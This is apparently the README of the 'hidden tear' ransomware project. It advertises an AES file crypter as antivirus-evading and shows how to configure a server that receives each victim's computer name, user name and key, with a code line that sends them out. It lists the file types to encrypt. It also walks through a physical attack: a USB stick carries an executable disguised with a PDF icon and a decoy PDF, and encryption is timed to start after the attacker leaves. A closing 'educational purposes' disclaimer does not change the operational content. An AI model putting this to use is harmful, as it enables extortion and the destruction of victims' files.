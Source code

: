 Jangan update. !       
         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypted in decryption program with encryption key.
* Creates a text file on Desktop with given message.
* Small file size (12 KB)
* Undetectable by antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
## Hidden Tear Offline Edition or: How I Learned to Stop Worrying and Love the Criminal Mind

What if there is a computer with full of important files and what if it has no internet or network connection. We can access it physically. But what if we were being watched, how can we execute hidden tear and get the encryption key?

**Demonstration Video**

https://www.youtube.com/watch?v=ayjv_aAwO0k

**Prerequisites**

Firstly you should have a usb stick which includes:

* exe file of hidden tear offline with a pdf icon.
* a normal pdf file like hotel reservation, ticket, lecture notes (that depends on your social engineering scenario)
* a txt file

**Workflow**

After you plugged usb stick to the computer, double click to .exe file. Don't worry, the normal pdf file will be open.

Hidden tear offline creates an encryption key and saves it into the txt file which is inside your usb stick. After than it copies exe file to the computer and executes. This process will be done in seconds. After than, you can unplug your usb stick.

Hidden tear offline will wait for some time which specified before, lets say 10 minutes. After 10 minutes, it will encrypt all the target files in computer. This part is same with the original hidden tear.

**Usage**

* Hidden tear offline will save the encryption key inside this txt file.

`string usbPassword = "adobe.txt";`

* It copies itself to this path after the first execution.

`string exePath = userDir + userName + "\\table.exe";`

* Name of the normal pdf file.

`System.Diagnostics.Process.Start("ticket.pdf");`

* `Timer1`'s interval represents the encryption start time. If you set it to 600000 miliseconds, encryption action will start after 10 minutes the first execution. If you need more time to leave the scene, you can increase the interval.

## Legal Warning

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

## Thanks

Special thanks to Ikikardes who helped me to publish this code.
